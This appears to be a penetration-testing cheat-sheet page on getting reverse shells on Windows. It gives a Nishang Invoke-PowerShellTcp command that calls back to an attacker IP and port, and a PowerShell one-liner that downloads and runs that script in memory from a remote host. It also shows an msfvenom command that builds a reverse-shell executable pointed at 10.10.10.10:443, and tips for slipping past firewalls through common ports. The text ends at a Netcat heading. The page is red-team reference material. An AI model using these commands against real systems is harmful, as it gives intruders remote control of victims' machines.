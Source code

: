 ```yaml
---
description: >-
  To gain control over a compromised system, an attacker usually aims to gain
  interactive shell access for RCE. A reverse shell is a connection back  that
  means that the victim connects to the attacker.
---
```


# Reverse Shell 🔙

{% hint style="warning" %}
Be careful with Firewalls, use common ports like **80**,**443** or **445**.
{% endhint %}

## Windows

### Nishang

[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.

```
Import-Module .\Invoke-PowershellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]
```

Or you can modify the script and append the following line:

`Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PORT]`

And execute directly from memory:

```
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://ip-addr:port/Invoke-PowerShellTcp.ps1')
```

{% hint style="danger" %}
Be careful, **migrate** the process to the same machine architecture!
{% endhint %}

### Binary

With msfvenom we can create a windows tcp reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o /tmp/rev.exe
```

### Netcat

Netcat is a network tool that allows through a command interpreter and with a simple syntax to open TCP / UDP ports in a HOST. It's not native from windows, so you need to trasnfer the binary.
